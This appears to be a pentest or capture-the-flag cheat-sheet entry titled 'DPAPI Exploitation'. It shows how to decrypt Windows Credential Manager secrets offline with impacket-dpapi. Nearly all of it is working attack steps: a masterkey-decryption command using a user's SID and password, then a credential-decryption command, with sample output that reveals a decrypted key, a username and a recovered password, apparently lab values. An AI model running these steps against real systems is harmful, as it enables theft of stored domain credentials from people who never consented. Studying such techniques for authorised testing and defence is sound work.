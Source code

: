 # DPAPI Exploitation

## Attacking Credential Manager Offline using impacket-dpapi

* We need to grab 3 things
  - The user SID
  - The Credential File(s) (Stored in %USERPROFILE%\AppData\Roaming\Microsoft\Credentials)
  - The Users Password

1. First we need to extract the key

    ```bash
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    ```
    ```bash
    # Example
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [MASTERKEYFILE]
    Version     :        2 (2)
    Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
    Flags       :        0 (0)
    Policy      :        0 (0)
    MasterKeyLen: 00000088 (136)
    BackupKeyLen: 00000068 (104)
    CredHistLen : 00000000 (0)
    DomainKeyLen: 00000174 (372)

    Decrypted key with User Key (MD4 protected)
    Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
2. That will give us the key to decrypt the credential vault

    ```bash
    impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
    ```bash
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [CREDENTIAL]
    LastWritten : 2025-01-29 12:55:19+00:00
    Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
    Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
    Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
    Target      : Domain:target=Jezzas_Account
    Description : 
    Unknown     : 
    Username    : jeremy.combs
    Unknown     : qT3V9pLXyN7W4m
    ```
